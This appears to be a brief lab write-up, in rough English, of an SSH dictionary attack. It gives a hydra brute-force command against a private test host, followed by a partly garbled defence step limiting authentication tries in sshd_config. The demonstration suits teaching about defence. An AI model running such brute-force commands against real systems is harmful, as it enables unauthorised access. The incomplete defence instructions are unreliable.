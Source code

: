 # 

The attack technique, also called a dictionary attack or brute force, is the mose basic attack and the most critical attack if successful.

Many attackers tries to Dictional Attack

Whether it's personal curiosity or financial reasons.

In particular, there are some kids who systematically try to automate attacks all over the world.

Even if the password is annoying, you should never use an easy password and ot should not be exposed.

ex) 1234, 1212, 0000

# ssh dictional attack

> Although it is a little far from the actual environment, the dictional file was arbitrarily reduced for the speed of the test.

# id passwd

> id: dodo
> passwd: dodo

``` bash
cat id.txt | nl | grep dodo
```
> 44 dodo

``` bash
cat passwd.txt | nl | grep dodo
```
> 44 dodo

# Attack Enviroment

``` bash
hydra -t 12 -L id.txt -P passwd.txt  10.10.1.8 ssh -V  
```

# defend

``` bash
sudo vim /etc/ssh/sshd_config
```

> Max Authnumber  && \
sudo service ssh status
![ssh_MAxAuthTries]()

![ssh_MAxAuthTries]()


``` bash
sudo service ssh reload && \
sudo service ssh status
```

# Result

![ssh_defened]
